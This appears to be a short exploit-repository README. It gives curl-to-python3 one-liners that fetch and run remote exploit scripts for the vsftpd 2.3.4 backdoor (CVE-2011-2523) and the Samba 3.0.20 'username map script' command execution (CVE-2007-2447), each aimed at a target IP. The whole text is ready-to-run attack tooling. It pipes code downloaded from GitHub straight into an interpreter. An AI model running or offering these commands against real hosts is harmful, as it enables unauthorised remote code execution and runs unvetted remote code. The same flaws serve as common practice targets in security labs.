 ##### vsftpd-2.3.4.py | vsftpd 2.3.4 - Backdoor Command Execution | CVE-2011-2523
```
curl -ss https://raw.githubusercontent.com/Y2FuZXBh/exploits/main/vsftpd-2.3.4.py | python3 - <IP> <Port>
```
##### samba-3.0.20.py | Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution | CVE-2007-2447
```
curl -ss https://raw.githubusercontent.com/Y2FuZXBh/exploits/main/samba-3.0.20.py | python3 - <IP> <NIC>
```